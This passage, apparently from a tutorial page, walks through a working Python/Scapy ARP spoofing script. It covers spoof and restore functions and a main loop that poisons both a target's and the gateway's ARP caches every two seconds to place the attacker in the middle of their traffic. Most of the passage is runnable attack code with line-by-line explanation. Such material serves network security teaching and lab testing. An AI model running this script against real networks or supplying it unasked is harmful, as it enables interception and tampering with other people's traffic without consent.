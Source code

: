 ```python
def spoof(target_ip, spoof_ip):
    """Send an ARP reply to the target to associate the attacker's MAC address with the spoof IP."""
    packet = ARP(op=2, pdst=target_ip, hwdst=get_mac(target_ip), psrc=spoof_ip)
    send(packet, verbose=False)
```

Breaking it down:
- **Create the Fake ARP Packet**: `ARP(op=2, pdst=target_ip, hwdst=get_mac(target_ip), psrc=spoof_ip)`
  - `op=2` means it’s an ARP reply.
  - `pdst=target_ip` is the IP of the target device.
  - `hwdst=get_mac(target_ip)` is the target’s actual MAC address.
  - `psrc=spoof_ip` is the IP address we want to "spoof" (like the gateway).
- **Send the Packet**: `send(packet, verbose=False)` sends this packet, making the target believe that `spoof_ip` is associated with our MAC.

#### 4. `restore(target_ip, spoof_ip)` Function

This function **undoes the spoofing** by sending the correct ARP reply, restoring the original IP-to-MAC association.

```python
def restore(target_ip, spoof_ip):
    """Restore the normal ARP table on the target by sending the correct association."""
    target_mac = get_mac(target_ip)
    spoof_mac = get_mac(spoof_ip)
    packet = ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, hwsrc=spoof_mac)
    send(packet, count=4, verbose=False)
```

What’s happening here:
- **Retrieve Actual MAC Addresses**: It finds the real MAC address of both `target_ip` and `spoof_ip`.
- **Create and Send the Correct ARP Packet**: An ARP reply (`op=2`) with the real IP-MAC association is sent four times (`count=4`), ensuring the target device’s ARP cache is updated with the correct information.

#### 5. Main Program Loop

Finally, we combine these functions in a loop to continually spoof the target device.

```python
# Replace with actual target and spoof IPs
target_ip = "192.168.1.10"     # Target device IP
gateway_ip = "192.168.1.1"      # Gateway IP

try:
    print("[*] Starting ARP spoofing...")
    while True:
        spoof(target_ip, gateway_ip)    # Spoof the target into thinking we are the gateway
        spoof(gateway_ip, target_ip)    # Spoof the gateway into thinking we are the target
        time.sleep(2)  # Wait a moment before sending another spoofing packet
except KeyboardInterrupt:
    print("\n[*] Detected CTRL+C, restoring network...")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
    print("[*] ARP table restored. Exiting.")
```
